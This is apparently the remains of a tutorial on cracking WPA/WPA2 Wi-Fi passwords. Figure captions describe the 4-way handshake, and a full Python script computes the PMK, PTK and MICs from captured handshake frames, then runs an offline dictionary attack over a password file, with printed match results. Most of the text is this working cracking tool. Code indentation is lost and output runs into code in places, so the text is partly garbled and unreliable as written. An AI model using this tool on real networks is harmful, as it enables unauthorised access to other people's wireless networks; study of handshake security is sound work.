








Figure 1: Beacon Frame Destination MAC

Figure 2: Beacon Frame SSID

Figure 3: 4-Way Handshake Sequence Diagram

Figure 4: ANonce Field
#Used for computing HMAC
import hmac
#Used to convert from hex to binary
from binascii import a2b_hex, b2a_hex
#Used for computing PMK
from hashlib import pbkdf2_hmac, sha1, md5
#Pseudo-random function for generation of
#the pairwise transient key (PTK)
#key: The PMK
#A: b'Pairwise key expansion'
#B: The apMac, cliMac, aNonce, and sNonce concatenated
# like mac1 mac2 nonce1 nonce2
# such that mac1 < mac2 and nonce1 < nonce2
#return: The ptk
def PRF(key, A, B):
#Number of bytes in the PTK
nByte = 64
i = 0
R = b''
#Each iteration produces 160-bit value and 512 bits are required
while(i <= ((nByte * 8 + 159) / 160)):
hmacsha1 = hmac.new(key, A + chr(0x00).encode() + B + chr(i).encode(), sha1)
R = R + hmacsha1.digest()
i += 1
return R[0:nByte]
#Make parameters for the generation of the PTK
#aNonce: The aNonce from the 4-way handshake
#sNonce: The sNonce from the 4-way handshake
#apMac: The MAC address of the access point
#cliMac: The MAC address of the client
#return: (A, B) where A and B are parameters
# for the generation of the PTK
def MakeAB(aNonce, sNonce, apMac, cliMac):
A = b"Pairwise key expansion"
B = min(apMac, cliMac) + max(apMac, cliMac) + min(aNonce, sNonce) + max(aNonce, sNonce)
return (A, B)
#Compute the 1st message integrity check for a WPA 4-way handshake
#pwd: The password to test
#ssid: The ssid of the AP
#A: b'Pairwise key expansion'
#B: The apMac, cliMac, aNonce, and sNonce concatenated
# like mac1 mac2 nonce1 nonce2
# such that mac1 < mac2 and nonce1 < nonce2
#data: A list of 802.1x frames with the MIC field zeroed
#return: (x, y, z) where x is the mic, y is the PTK, and z is the PMK
def MakeMIC(pwd, ssid, A, B, data, wpa = False):
#Create the pairwise master key using 4096 iterations of hmac-sha1
#to generate a 32 byte value
pmk = pbkdf2_hmac('sha1', pwd.encode('ascii'), ssid.encode('ascii'), 4096, 32)
#Make the pairwise transient key (PTK)
ptk = PRF(pmk, A, B)
#WPA uses md5 to compute the MIC while WPA2 uses sha1
hmacFunc = md5 if wpa else sha1
#Create the MICs using HMAC-SHA1 of data and return all computed values
mics = [hmac.new(ptk[0:16], i, hmacFunc).digest() for i in data]
return (mics, ptk, pmk)
Figure 5: SNonce Field

Figure 6: WPA Key MIC 1

Figure 7: Data Section of WPA2 EAPOL Packet 2

Figure 8: WPA Key MIC 2
#Run a brief test showing the computation of the PTK, PMK, and MICS
#for a 4-way handshake
def RunTest():
#the pre-shared key (PSK)
psk = "12345678"
#ssid name
ssid = "Harkonen"
#ANonce
aNonce = a2b_hex('225854b0444de3af06d1492b852984f04cf6274c0e3218b8681756864db7a055')
#SNonce
sNonce = a2b_hex("59168bc3a5df18d71efb6423f340088dab9e1ba2bbc58659e07b3764b0de8570")
#Authenticator MAC (AP)
apMac = a2b_hex("00146c7e4080")
#Station address: MAC of client
cliMac = a2b_hex("001346fe320c")
#The first MIC
mic1 = "d5355382b8a9b806dcaf99cdaf564eb6"
#The entire 802.1x frame of the second handshake message with the MIC field set to all zeros
data1 = a2b_hex("0103007502010a0010000000000000000159168bc3a5df18d71efb6423f340088dab9e1ba2bbc58659e07b3764b0de8570000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac020100")
#The second MIC
mic2 = "1e228672d2dee930714f688c5746028d"
#The entire 802.1x frame of the third handshake message with the MIC field set to all zeros
data2 = a2b_hex("010300970213ca00100000000000000002225854b0444de3af06d1492b852984f04cf6274c0e3218b8681756864db7a055192eeef7fd968ec80aee3dfb875e8222370000000000000000000000000000000000000000000000000000000000000000383ca9185462eca4ab7ff51cd3a3e6179a8391f5ad824c9e09763794c680902ad3bf0703452fbb7c1f5f1ee9f5bbd388ae559e78d27e6b121f")
#The third MIC
mic3 = "9dc81ca6c4c729648de7f00b436335c8"
#The entire 802.1x frame of the forth handshake message with the MIC field set to all zeros
data3 = a2b_hex("0103005f02030a0010000000000000000200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000")
#Create parameters for the creation of the PTK, PMK, and MICs
A, B = MakeAB(aNonce, sNonce, apMac, cliMac)
#Generate the MICs, the PTK, and the PMK
mics, ptk, pmk = MakeMIC(psk, ssid, A, B, [data1, data2, data3])
#Display the pairwise master key (PMK)
pmkStr = b2a_hex(pmk).decode().upper()
print("pmk:\t\t" + pmkStr + '\n')
#Display the pairwise transient key (PTK)
ptkStr = b2a_hex(ptk).decode().upper()
print("ptk:\t\t" + ptkStr + '\n')
#Display the desired MIC1 and compare to target MIC1
mic1Str = mic1.upper()
print("desired mic:\t" + mic1Str)
#Take the first 128-bits of the 160-bit SHA1 hash
micStr = b2a_hex(mics[0]).decode().upper()[:-8]
print("actual mic:\t" + micStr)
print('MATCH\n' if micStr == mic1Str else 'MISMATCH\n')
#Display the desired MIC2 and compare to target MIC2
mic2Str = mic2.upper()
print("desired mic:\t" + mic2Str)
#Take the first 128-bits of the 160-bit SHA1 hash
micStr = b2a_hex(mics[1]).decode().upper()[:-8]
print("actual mic:\t" + micStr)
print('MATCH\n' if micStr == mic2Str else 'MISMATCH\n')
#Display the desired MIC3 and compare to target MIC3
mic3Str = mic3.upper()
print("desired mic:\t" + mic3Str)
#Take the first 128-bits of the 160-bit SHA1 hash
micStr = b2a_hex(mics[2]).decode().upper()[:-8]
print("actual mic:\t" + micStr)
print('MATCH\n' if micStr == mic3Str else 'MISMATCH\n')
returnpmk: EE51883793A6F68E9615FE73C80A3AA6F2DD0EA537BCE627B929183CC6E57925
ptk: EA0E404633C802450302868CCAA749DE5CBA5ABCB267E2DE1D5E21E57ACCD5079B31E9FF220E132AE4F6ED9EF1ACC88545825FC32EE55961395AE43734D6C107
desired mic: D5355382B8A9B806DCAF99CDAF564EB6
actual mic: D5355382B8A9B806DCAF99CDAF564EB6
MATCH
desired mic: 1E228672D2DEE930714F688C5746028D
actual mic: 1E228672D2DEE930714F688C5746028D
MATCH
desired mic: 9DC81CA6C4C729648DE7F00B436335C8
actual mic: 9DC81CA6C4C729648DE7F00B436335C8
MATCHpmk: EBB5D703F8834A08D61A67A982FA009E08F747DD65D82C240169E604218B3ACF
ptk: 63E412CE67759BD5CEBD0F5B5A487CA155ADD51D771293E31C05BF05A3A98BCFE645F29203956E34C6A5B0CC2186B1161F643807349576CDB2FB1C158B03648F
desired mic: D5355382B8A9B806DCAF99CDAF564EB6
actual mic: C2EE0E125962261C897A05E33B579F5C
MISMATCH
desired mic: 1E228672D2DEE930714F688C5746028D
actual mic: 6D60808DE292A32BAE1D381B3D295B2F
MISMATCH
desired mic: 9DC81CA6C4C729648DE7F00B436335C8
actual mic: D5F07A0FBC8F376541D46591FDA74470
MISMATCH#Tests a list of passwords; if the correct one is found it
#prints it to the screen and returns it
#S: A list of passwords to test
#ssid: The ssid of the AP
#aNonce: The ANonce as a byte array
#sNonce: The SNonce as a byte array
#apMac: The AP's MAC address
#cliMac: The MAC address of the client (aka station)
#data: The 802.1x frame of the second message with the MIC field zeroed
#data2: The 802.1x frame of the third message with the MIC field zeroed
#data3: The 802.1x frame of the forth message with the MIC field zeroed
#targMic: The MIC for message 2
#targMic2: The MIC for message 3
#targMic3: The MIC for message 4
def TestPwds(S, ssid, aNonce, sNonce, apMac, cliMac, data, data2, data3, targMic, targMic2, targMic3):
#Pre-computed values
A, B = MakeAB(aNonce, sNonce, apMac, cliMac)
#Loop over each password and test each one
for i in S:
mic, _, _ = MakeMIC(i, ssid, A, B, [data])
v = b2a_hex(mic[0]).decode()[:-8]
#First MIC doesn't match
if(v != targMic):
continue
#First MIC matched... Try second
mic2, _, _ = MakeMIC(i, ssid, A, B, [data2])
v2 = b2a_hex(mic2[0]).decode()[:-8]
if(v2 != targMic2):
continue
#First 2 match... Try last
mic3, _, _ = MakeMIC(i, ssid, A, B, [data3])
v3 = b2a_hex(mic3[0]).decode()[:-8]
if(v3 != targMic3):
continue
#All of them match
print('!!!Password Found!!!')
print('Desired MIC1:\t\t' + targMic)
print('Computed MIC1:\t\t' + v)
print('\nDesired MIC2:\t\t' + targMic2)
print('Computed MIC2:\t\t' + v2)
print('\nDesired MIC2:\t\t' + targMic3)
print('Computed MIC2:\t\t' + v3)
print('Password:\t\t' + i)
return i
return None
if __name__ == "__main__":
RunTest()
#Read a file of passwords containing
#passwords separated by a newline
with open('passwd.txt') as f:
S = []
for l in f:
S.append(l.strip())
#ssid name
ssid = "Harkonen"
#ANonce
aNonce = a2b_hex('225854b0444de3af06d1492b852984f04cf6274c0e3218b8681756864db7a055')
#SNonce
sNonce = a2b_hex("59168bc3a5df18d71efb6423f340088dab9e1ba2bbc58659e07b3764b0de8570")
#Authenticator MAC (AP)
apMac = a2b_hex("00146c7e4080")
#Station address: MAC of client
cliMac = a2b_hex("001346fe320c")
#The first MIC
mic1 = "d5355382b8a9b806dcaf99cdaf564eb6"
#The entire 802.1x frame of the second handshake message with the MIC field set to all zeros
data1 = a2b_hex("0103007502010a0010000000000000000159168bc3a5df18d71efb6423f340088dab9e1ba2bbc58659e07b3764b0de8570000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac020100")
#The second MIC
mic2 = "1e228672d2dee930714f688c5746028d"
#The entire 802.1x frame of the third handshake message with the MIC field set to all zeros
data2 = a2b_hex("010300970213ca00100000000000000002225854b0444de3af06d1492b852984f04cf6274c0e3218b8681756864db7a055192eeef7fd968ec80aee3dfb875e8222370000000000000000000000000000000000000000000000000000000000000000383ca9185462eca4ab7ff51cd3a3e6179a8391f5ad824c9e09763794c680902ad3bf0703452fbb7c1f5f1ee9f5bbd388ae559e78d27e6b121f")
#The third MIC
mic3 = "9dc81ca6c4c729648de7f00b436335c8"
#The entire 802.1x frame of the forth handshake message with the MIC field set to all zeros
data3 = a2b_hex("0103005f02030a0010000000000000000200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000")
#Run an offline dictionary attack against the access point
TestPwds(S, ssid, aNonce, sNonce, apMac, cliMac, data1, data2, data3, mic1, mic2, mic3)